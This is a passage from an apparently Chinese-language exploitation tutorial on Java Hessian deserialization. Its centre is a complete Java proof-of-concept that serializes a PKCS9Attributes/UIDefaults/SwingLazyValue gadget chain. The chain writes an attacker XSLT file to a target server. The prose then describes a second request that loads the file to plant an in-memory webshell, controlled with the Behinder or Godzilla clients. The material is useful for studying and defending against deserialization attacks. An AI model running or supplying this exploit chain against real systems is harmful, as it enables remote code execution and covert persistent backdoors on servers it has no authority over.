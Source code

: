 ```
```

文件内容如上，加载恶意类，也就是内存马。那么为了加载xslt，我们还需要有一个payload去写入恶意的xslt，用到的gadgets还是一样的。

```
package com.javasec.pocs.hessian;
import com.caucho.hessian.io.Hessian2Output;
import com.javasec.utils.SerializeUtils;
import sun.security.pkcs.PKCS9Attribute;
import sun.security.pkcs.PKCS9Attributes;
import sun.swing.SwingLazyValue;

import javax.swing.*;
import java.io.FileOutputStream;

public class HessianProxyLVFileWrite {
    public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        //PKCS9Attribute.EMAIL_ADDRESS_OID 是固定的，调试流程可以看到逻辑
        //去修改需要读取的文件，和写入的文件名，实例中是读取1.txt写入pwned.txt
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils", "writeBytesToFilename", new Object[]{"/tmp/1.xslt",SerializeUtils.getFileBytes("E:\\payload.xslt")}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();
    }
}


```

这里选用JavaUtils的writeBytesTofilename即可。

## 五、合

确认了Gadgets和内存马后，我们就可以直接打两次poc了。<br/> 这里就以本机为例子，看看curl指令的结果。

<br/> 第一发是写入payload

<br/> 成功写入，第二发就是去加载xslt文件

<br/> 之后就可以像上面一样去连接冰蝎或者哥斯拉了。

## 六、不出网渗透
